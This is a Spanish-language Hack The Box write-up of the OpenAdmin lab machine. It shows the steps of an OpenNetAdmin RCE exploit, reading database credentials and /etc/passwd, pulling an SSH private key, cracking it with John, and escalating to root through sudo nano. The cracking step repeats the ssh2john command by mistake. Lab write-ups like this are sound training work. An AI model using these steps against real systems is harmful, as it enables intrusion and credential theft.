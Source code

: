 # HTB - OpenAdmin
Este es mi primer writeup asi como OpenAdmin(10.10.10.171) fue una de las primeras maquinas que resolvi. Espero que sea de ayuda al lector y H4ppy H4ck1ng!
## Escaneando puertos
Utilizando el comando:
```markdown
nmap -sS --open -p- -sV -T 4 10.10.10.171 
```
![imagen](https://user-images.githubusercontent.com/84255799/119300072-c16ead80-bc25-11eb-9a3c-61bf6bc1ea3f.png)

Del escaneo, se puede observar que la maquina tiene 2 puertos abiertos, se requieren usuarios para el login de SSh por lo que se procede a enumerar el puerto 80.

## Enumeración de directorios
Para este paso hice uso de DirBuster, ingrese los datos: URL: http://10.10.10.171:80/ y Wordlist: directory-list-lowercase-2.3-medium.txt.
La herramienta encontró los siguientes directorios:

![imagen](https://user-images.githubusercontent.com/84255799/119300552-8f118000-bc26-11eb-88c8-6c30854b43aa.png)

Probando esos directorios, encontre que el directorio /music tiene un boton de login que me redirecciona a OpenNetAdmin ver 18.1.1. Buscando en google, encontre que esa versión posee RCE(Remote Code Execution).

## Buscando acceso
Procedo a buscar exploits con el siguiente comando:
```markdown
searchsploit opennetadmin
```

![imagen](https://user-images.githubusercontent.com/84255799/119301075-81a8c580-bc27-11eb-8e87-5796ec89ace9.png)

Una vez copiado el exploit en nuestra carpeta de trabajo, debemos darle permisos para ejecución.

![imagen](https://user-images.githubusercontent.com/84255799/119301145-a2711b00-bc27-11eb-9887-94d2063c84bd.png)

Ejecutandolo con:
```markdown
./ona.sh http://10.10.10.171/ona/
```
Me da una shell:

![imagen](https://user-images.githubusercontent.com/84255799/119301280-d0565f80-bc27-11eb-9d99-24f7c772941f.png)

## Buscando credenciales

Procedo a buscar archivos que puedan darme pistas de cómo obtener acceso a un user.

![imagen](https://user-images.githubusercontent.com/84255799/119301374-fe3ba400-bc27-11eb-9979-f1e5ee69c922.png)

Leyendo ese archivo con:
```markdown
cat var/www/ona/local/config/database_settings.inc.php
```
Encontramos lo siguiente:

![imagen](https://user-images.githubusercontent.com/84255799/119301592-570b3c80-bc28-11eb-8d91-890f011f8fd4.png)

Por lo que intento probar esa contraseña en los usuarios de la maquina
```markdown
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
jimmy:x:1000:1000:jimmy:/home/jimmy:/bin/bash
joanna:x:1001:1001:,,,:/home/joanna:/bin/bash
```
La contraseña funcionó para Jimmy!

![imagen](https://user-images.githubusercontent.com/84255799/119301787-a2bde600-bc28-11eb-990f-b50693b4f08f.png)

## Escalando privilegios 

Buscando en los directorios de la maquina, encontre uno interesante
```markdown
cat /var/www/internal/main.php
```
![imagen](https://user-images.githubusercontent.com/84255799/119301945-e57fbe00-bc28-11eb-81fa-77a393343e78.png)

Esto me motiva a verificar si se esta utilizando algun otro puerto de forma interna en la maquina
```markdown
ss -ltu
```
![imagen](https://user-images.githubusercontent.com/84255799/119302096-2f68a400-bc29-11eb-96c8-bff28733c843.png)

Por lo que si realizamos Curl a la pagina en ese puerto,
```markdown
curl localhost:52846/main.php
```
Encontramos una llave privada:

![imagen](https://user-images.githubusercontent.com/84255799/119302205-5a52f800-bc29-11eb-9014-2adb7003b667.png)

### Crackeando password 

Para crackear una pass, mi primera opción es JohnTheRipper, pero antes procedo a ponerla en un formato que el John pueda aceptar
```markdown
sudo python /usr/share/john/ssh2john.py id_rsa > joanna_id_rsa.hash
```

Una vez hecho esto, procedo a crackearla
```markdown
sudo python /usr/share/john/ssh2john.py id_rsa > joanna_id_rsa.hash
```
![imagen](https://user-images.githubusercontent.com/84255799/119302468-c6356080-bc29-11eb-89a7-fcea46d065d1.png)

Cuando probamos esa clave, tenemos el acceso
```markdown
ssh -i id_rsa joanna@10.10.10.171
```
![imagen](https://user-images.githubusercontent.com/84255799/119302614-03015780-bc2a-11eb-8a1e-9ca4c21293e3.png)

Si leemos el user.txt tendremos la flag del user.
![imagen](https://user-images.githubusercontent.com/84255799/119302679-1d3b3580-bc2a-11eb-9364-46da0f308771.png)

### Ultimo paso

Comprobamos que permiso tiene Joanna,
```markdown
sudo -l
```
![imagen](https://user-images.githubusercontent.com/84255799/119302790-507dc480-bc2a-11eb-9d61-d31a142d7866.png)

Joanna tiene permiso de ejecutar nano como root.

Por lo tanto,
```markdown
sudo /bin/nano /opt/priv
```
![imagen](https://user-images.githubusercontent.com/84255799/119302929-828f2680-bc2a-11eb-87ce-ae52b53a6321.png)

Para ir directamente a root.txt, busque el archivo y luego procedi a leerlo.
![imagen](https://user-images.githubusercontent.com/84255799/119302975-9aff4100-bc2a-11eb-8614-35dcc25a287d.png)

## Gracias por leer!

Espero te haya servido, proximamente publicaré más writeups.
